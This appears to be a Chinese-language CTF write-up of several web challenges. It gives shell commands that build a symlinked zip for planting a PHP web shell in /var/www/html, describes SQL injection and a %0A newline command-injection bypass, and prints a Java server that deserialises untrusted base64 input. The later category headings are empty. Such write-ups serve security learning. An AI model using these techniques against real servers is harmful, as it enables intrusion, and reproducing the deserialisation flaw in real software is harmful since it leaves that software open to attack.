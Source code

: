 
# web
### unzip

上传一个指向 /var/www/html 的软连接 root.zip
```shell
ln -s /var/www/html root;zip -y root.zip root
```


上传一个指向 root/shell.php 的软连接
```shell
mkdir root;nano root/shell.php;zip -ry shell.zip root/
```

访问url+shell.php

### dumpit

访问url,得到提示

> use ?db=&table_2_query= or ?db=&table_2_dump= to view the tables! etc:?db=ctf&table_2_query=flag1

给的参数分两种

1. ?db=&table_2_query= 指定数据库和表查询,存在sql注入
2. ?db=&table_2_dump= 根据db和dump参数生成dumplog文档

sql注入发现没有flag

参数存在 `%00` 时会报错



猜测命令执行,使用 %0A换行绕过,执行多条命令

### DeserBug
#java
```java
public class Testapp {
    public static void main(String[] args) {
        HttpUtil.createServer(8888).addAction("/", request, response -> {
            String result;
            String bugstr = request.getParam("bugstr");
            if (bugstr == null) {
                response.write("welcome,plz give me bugstr", ContentType.TEXT_PLAIN.toString());
            }
            try {
                byte[] decode = Base64.getDecoder().decode(bugstr);
                ObjectInputStream inputStream = new ObjectInputStream(new ByteArrayInputStream(decode));
                Object object = inputStream.readObject();
                result = object.toString();
            } catch (Exception e) {
                Myexpect myexpect = new Myexpect();
                myexpect.setTypeparam(new Class[]{String.class});
                myexpect.setTypearg(new String[]{e.toString()});
                myexpect.setTargetclass(e.getClass());
                try {
                    result = myexpect.getAnyexcept().toString();
                } catch (Exception ex) {
                    result = ex.toString();
                }
            }
            response.write(result, ContentType.TEXT_PLAIN.toString());
        }).start();
    }
}
```
接收`bugstr`参数进行反序列化
# reverse

# pwn

# crypto

# Misc


---
## *相关wp*




2023-05-27   12:58